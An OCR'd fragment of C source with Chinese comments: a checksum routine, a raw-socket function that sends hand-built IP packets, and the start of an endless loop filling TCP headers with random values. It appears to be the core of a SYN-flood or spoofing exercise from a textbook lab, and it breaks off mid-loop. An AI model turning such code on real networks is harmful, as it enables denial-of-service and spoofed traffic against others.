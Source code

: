 ```c
    unsigned int sum = 0, nleft = len;
    unsigned short answer = 0;
    unsigned short *w = addr;

    while (nleft > 1) {
        sum += *w++;
        nleft -= 2;
    }
    if (nleft == 1) {
        *(__u_char *) (&answer) = *(__u_char *) w;
        sum += answer;
    }
    sum = (sum >> 16) + (sum & 0xffff);//将高16bit与低16bit相加

    sum += (sum >> 16);//将进位到高位的16bit与低16bit 再相加
    answer = (unsigned short)(~sum);
    return (answer);
}


void send_raw_ip_packet(struct iphdr *ippacket){

    // 创建一个原生套接字
    // IPPROTO_RAW表明我们将支持ip头部，系统不需要提供IP头部
    // IPPROTO_RAW同时表明允许IP_HDRINCL
    int sock = socket(AF_INET,SOCK_RAW,IPPROTO_RAW);

    // int enable = 1;
    // setsockopt(sock,IPPROTO_IP,IP_HDRINCL,&enable,sizeof(enable));

    // 提供目的地选项
    // sockaddr_in提供的结构体，用来构建IP头；现在IP头已经有了，应当不用提供这样的结构体
    // 书上说：提供目的地址，帮助内核获得目的IP对应的MAC地址
    struct sockaddr_in dest_info;
    dest_info.sin_family = AF_INET;
    dest_info.sin_addr.s_addr = ippacket->daddr;

    printf("des:port -- %s:%uh\n",inet_ntoa(dest_info.sin_addr),ntohs(((struct tcphdr *)(ippacket + sizeof(struct iphdr)))->dest));
    // 发送包
    sendto(sock,ippacket,ntohs(ippacket->tot_len),0,(struct sockaddr *)(&dest_info),sizeof(dest_info));
    
    close(sock);
}


int main(void){
    // IPv4,数据包长度不超多65535
    // 超过MTU=1500，要分片
    // 凑个整，这里定义PACKET_LEN=1000
    char buffer[PACKET_LEN];
    struct iphdr *ipheader = (struct iphdr *)(buffer);
    struct tcphdr *tcpheader = (struct tcphdr *)(buffer + sizeof(struct iphdr));

    // 初始化随机数发生器
    srand(time(0));

    while (1){
        bzero(buffer,sizeof(buffer));

        // 填充TCP头部
        tcpheader->source = rand();
```